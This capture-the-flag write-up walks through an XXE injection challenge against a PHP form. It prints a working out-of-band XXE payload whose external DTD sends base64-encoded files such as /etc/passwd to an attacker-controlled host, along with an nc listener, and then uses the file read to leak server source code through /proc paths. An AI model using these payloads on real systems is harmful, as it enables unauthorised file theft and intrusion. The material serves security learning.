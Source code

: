 # Leakage problem

Leakage problem was a PHP based XML external entity (XXE) injection challenge. The website
has a single field which expects an email address:

<img width="725" alt="image" src="https://user-images.githubusercontent.com/6275775/231825682-9b661676-cd6f-4bb1-9be1-03560a21a030.png">

The first thing to notice is that the corresponding request contains an xml payload:

```
<?xml version="1.0"?>
<form>
<email>xxx@foo.com</email>
</form>
```

This immediately triggers the XXE attack vector. I have a small server running where
I can host payloads for such competitions, so after some trial and error I got to the
following setup. (I'll use example.com below instead of the real server.)


```
# https://example.com/foo.dtd
<!ENTITY % start "<!ENTITY &#x25; send SYSTEM 'http://example.com:11111/?%file;'>">%start;
```

and send this to the website:

```
<?xml version="1.0"?>
<!DOCTYPE form [ 
    <!ENTITY % remote SYSTEM "https://example.com/foo.dtd">
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
     %remote;
     %send;
 ]>
<form>
<email>"</email>
</form>
```

I can listen to the incoming requests in my server with:
```
nc -l localhost 11111
```

This works fine, I get the `/etc/passwd` file. What else can we steal? I looked around the 
`/proc` folder in my linux machine and for ideas then tried things like `/proc/self/cmdline`,
`/proc/self/cwd/index.php` and `/proc/self/cwd/register.php`:

```php
# register.php
...

if( isset($creds->email)){
    $url = 'http://127.0.0.1:4200/register';
    $data = array('email' => $creds->email);
    $options = array(
        'http' => array(
            'header'  => "Content-type: application/x-www-form-urlencoded",
            'method'  => 'POST',
            'content' => "email=".$creds->email
        )
    );
    $context  = stream_context_create($options);
    $result = file_get_contents($url, false, $context);
    $success=True;
}
...
```

Ok, we have nice LFI, and it seems that the register.php forwards the request to an other service
that runs on port 4200.

I also checked `/proc/1/cmdline`:

```
/bin/sh -c apachectl start && node index.js
```

Maybe it is running in the `/app` directory, let's try `/app/index.js`:

```javascript
/* index.js */

const express = require("express");
const schema = require("./schema");
const resolvers = require("./resolvers");
const { graphqlHTTP } = require('express-graphql');
const {Users} = require('./users')
const bodyParser = require('body-parser')

const urlencodedParser = bodyParser.urlencoded({ extended: false })

const app = express();

app.use(
  "/graphql",
  graphqlHTTP({
    schema,
    rootValue: resolvers,
    graphiql: true
  })
);

app.post('/register',urlencodedParser,(req, res) =>{
  try{
    if(typeof req.body.email != 'undefined' && req.body.email){
      Users.push({email:req.body.email});
    }
  }catch(e){}
  return res.end();
});


const port = process.env.PORT || 4200;
app.listen(port);

console.log(`GraphQL Server is ready at http://localhost:4200/graphql`);
```

Bingo. From here, we can download the all the files mentioned in the import section (add .js to the 
filename), there is `data.js` which is kind of big and has some base64 encoded data in it. This is
some weird picture of Shrek with our most wanted flag.

